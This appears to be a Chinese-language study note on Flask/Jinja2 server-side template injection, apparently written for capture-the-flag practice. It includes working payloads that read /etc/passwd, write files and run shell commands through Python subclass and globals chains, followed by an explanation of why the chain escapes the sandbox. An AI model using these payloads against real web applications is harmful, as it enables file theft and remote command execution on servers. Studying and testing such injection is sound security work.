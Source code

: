 
py2:


```plain
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
Plain Text
```



py3:


#命令执行：


```plain
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
Plain Text
```



（py2包含的类py3一般都有，但是位置顺序不太一样，然后就是调用格式确实不太一样）


这里以py2为例：


flask函数解析：


```plain
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
Plain Text
```



{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}（如果还记得的话{{}}是输出的意思）


所以这句话的逻辑是什么呢？


创建一个空字符，返回它的参数类型，寻找基类，找子类，选取第40个子类，调用其中的read函数。这也是一条逻辑链，flask的模板注入的核心就是这条逻辑链。或者被称之为沙盒逃逸：创建一个相对封闭的python沙盒环境，然后从某个位置开始找到最顶层，然后一步一步向下摸索，最后从沙箱中逃逸出去。

## FLASK流程

也可以叫小payload，下次找个基础点的，没过滤的题，可以好好试试。
